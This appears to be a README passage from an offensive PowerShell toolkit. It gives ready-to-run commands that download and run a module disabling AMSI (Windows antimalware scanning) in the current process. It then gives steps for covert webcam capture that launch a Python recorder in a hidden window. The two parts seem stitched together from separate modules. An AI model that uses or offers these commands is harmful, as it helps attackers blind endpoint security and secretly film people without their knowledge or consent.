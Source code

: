 ## Module Name
   <b><i>AMSBP.ps1</i></b>

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|AMSBP|Disable AMSI within current process|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.ps1" -OutFile "AMSBP.ps1"
```

```powershell
Import-Module -Name ".\AMSBP.ps1" -Force
AMSBP
```

<br />

credits: @AHLASaad \ @Avinab Saha
URL: https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python/


#Check if opencv its installed
[bool](pip3 list|findstr /C:"opencv-python")

# it installs opencv and numpy
pip3 install opencv-python

# Edit WebCam.py and change next cmdline to point to our python\site-packages dir
sys.path.append("c:\\users\\pedro\\appdata\\local\\programs\\python\\python39\\lib\\site-packages")

#Start capture
Start-Process -WindowStyle hidden python3 -argumentlist "WebCam.py"

#Stop capture
stop-process -name python3.9